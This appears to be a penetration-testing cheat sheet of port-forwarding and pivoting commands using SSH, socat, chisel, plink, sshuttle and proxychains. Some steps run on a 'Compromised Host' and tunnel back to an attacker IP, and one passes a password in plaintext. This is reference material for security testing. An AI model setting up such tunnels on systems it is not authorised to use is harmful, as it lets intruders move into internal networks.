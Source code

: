 ## Port Forwarding and Proxying
### Port Forwarding
#### SSH Tunneling/Local Port Forwarding  
```
ssh user@<ip> -p port -L 8001:127.0.0.1:8080 -fN
```

#### SSH Remote Port Forwarding
```
ssh -R 5555:127.0.0.1:5555 -p2222 <user>@<ip>
```

#### Socat - Port Forward
```
./socat.exe TCP-LISTEN:8002,fork,reuseaddr TCP:127.0.0.1:8080
```

#### chisel  - Remote Port Forward 
* Your machine  
```
./chisel server -p <LISTEN_PORT> --reverse &
```

* Compromised Host
```
./chisel client <ATTACKING_IP>:<LISTEN_PORT> R:<LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT> &
```

#### Chisel - Local Port Forward
* Compromised Host  
```
./chisel server -p <LISTEN_PORT>
```

* Your Machine  
```
./chisel client <LISTEN_IP>:<LISTEN_PORT> <LOCAL_PORT>:<TARGET_IP>:<TARGET_PORT>
```

#### pklink - Remote Port Forward
```
cmd.exe /c echo y | plink.exe -ssh -l <user> -pw <password> -R 192.168.0.20:1234:127.0.0.1:3306 192.168.0.20
```

### Proxying - Network Pivoting
#### sshuttle (Unix) - proxying  
```
sshuttle -r user@<ip> --ssh-cmd "ssh -i private_key" 172.16.0.0/24
```

#### SSH + Proxychains
edit /etc/proxychains.conf with socks4 127.0.0.1 8080
```
ssh -N -D 127.0.0.1:8080 <user>@<ip> -p 2222
```
  